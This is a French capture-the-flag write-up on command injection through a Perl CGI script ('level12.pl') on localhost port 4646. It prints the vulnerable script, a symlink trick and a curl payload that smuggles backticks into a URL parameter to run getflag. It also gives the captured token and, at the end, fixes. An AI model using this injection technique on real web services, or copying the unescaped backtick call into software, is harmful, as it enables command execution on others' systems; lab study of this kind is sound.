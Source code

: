 # Rapport de Vulnérabilité : Injection de Commande Perl via CGI

## Description
Cette vulnérabilité exploite une injection de commandes via un script Perl CGI (`level12.pl`) accessible localement via un serveur web tournant sur le port 4646. Le script utilise les entrées utilisateur sans filtrage adéquat dans une commande système (`egrep`). En exploitant cette vulnérabilité, il est possible d'exécuter arbitrairement des commandes shell avec les privilèges de l'utilisateur flag12 et ainsi récupérer le token pour passer au niveau suivant.

## Comment Exploiter la Faille

### Étape 1 : Analyse du script vulnérable

**Code complet du script `level12.pl` :**
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";
sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}
sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}
n(t(param("x"), param("y")));
```

**Points clés d'analyse :**
- Le paramètre `x` subit deux transformations :
  1. `$xx =~ tr/a-z/A-Z/;` → Conversion en majuscules
  2. `$xx =~ s/\s.*//;` → Suppression de tout après le premier espace
- La vulnérabilité se trouve dans : `@output = `egrep "^$xx" /tmp/xd 2>&1`;`
- `$xx` est injecté directement dans la commande système sans échappement

### Étape 2 : Contournement des restrictions

**Problème :** Les transformations du script limitent notre payload :
- Majuscules uniquement
- Tout après un espace est supprimé

**Solution :** Utiliser le caractère wildcard `*` qui n'est pas affecté par ces transformations et permet de contourner les restrictions de chemin.

### Étape 3 : Préparation de l'exploitation

**Création du lien symbolique :**
```bash
ln -s /bin/getflag /tmp/GETFLAG
```

Cette étape est cruciale car elle permet de créer un lien vers `getflag` avec un nom en majuscules, compatible avec la transformation du script.

### Étape 4 : Exécution de l'attaque

**Payload d'injection :**
```bash
curl 'http://localhost:4646/level12.pl?x="%60/*/GETFLAG>%262%60"'
```

**Décomposition du payload :**
- `%60` = backtick (`) encodé en URL
- `/*/GETFLAG` = utilise le wildcard `*` pour contourner les restrictions
- `>%262` = redirige vers stderr (`%26` = `&`, `2` = stderr)
- Le tout est encadré de backticks pour exécution de commande

**Mécanisme d'exploitation :**
1. Le script transforme le payload : `%60/*/GETFLAG>%262%60` → `/*/GETFLAG>&2`
2. Les backticks décodés provoquent l'exécution : `egrep "^`/*/GETFLAG>&2`" /tmp/xd`
3. La commande `/tmp/GETFLAG` (via le lien symbolique) s'exécute et redirige vers stderr

### Étape 5 : Récupération du flag

**Consultation des logs d'erreur Apache :**
```bash
cat /var/log/apache2/error.log
```

**Résultat obtenu :**
```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

**Flag obtenu :**
```
g1qKMiRpXf53AWhDaU7FEkczr
```

### Étape 6 : Passage au niveau suivant

```bash
su level13
```
**Mot de passe :**
```
g1qKMiRpXf53AWhDaU7FEkczr
```

---

## Mécanisme détaillé de l'exploitation

### Transformation des données :
1. **Input original :** `"%60/*/GETFLAG>%262%60"`
2. **Après décodage URL :** `` `/*/GETFLAG>&2` ``
3. **Après tr/a-z/A-Z/ :** `` `/*/GETFLAG>&2` `` (pas de changement)
4. **Après s/\s.*// :** `` `/*/GETFLAG>&2` `` (pas d'espace, pas de changement)
5. **Injection finale :** `egrep "^`/*/GETFLAG>&2`" /tmp/xd`

### Exécution de la commande injectée :
- Le shell exécute d'abord la commande entre backticks : `/*/GETFLAG>&2`
- Le wildcard `*` se résout vers `/tmp/GETFLAG` (notre lien symbolique)
- `getflag` s'exécute et sa sortie est redirigée vers stderr
- Le résultat de `getflag` remplace les backticks dans la commande `egrep`

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Validation stricte des entrées utilisateur :**
  - Utiliser des listes blanches de caractères autorisés
  - Rejeter toute entrée contenant des caractères spéciaux shell

* **Échappement sécurisé :**
  - Utiliser `quotemeta()` pour échapper les métacaractères
  - Implémenter un filtrage strict des backticks, pipes, redirections

* **Éviter l'exécution de commandes avec entrées utilisateur :**
  - Remplacer les backticks par des appels système sécurisés
  - Utiliser `open()` avec liste de paramètres explicites

**Code sécurisé suggéré :**
```perl
use File::Basename;
$xx = quotemeta($xx);  # Échappement sécurisé
# Ou mieux : utiliser une approche sans appel système
```

## Conclusion

Cette vulnérabilité illustre parfaitement les dangers de l'injection de commandes dans les applications web CGI. Malgré les transformations appliquées aux entrées (majuscules, suppression d'espaces), l'utilisation du wildcard `*` et des redirections permet de contourner ces protections rudimentaires. Une validation stricte et un échappement approprié des entrées utilisateur sont essentiels pour prévenir ce type d'exploitation.

---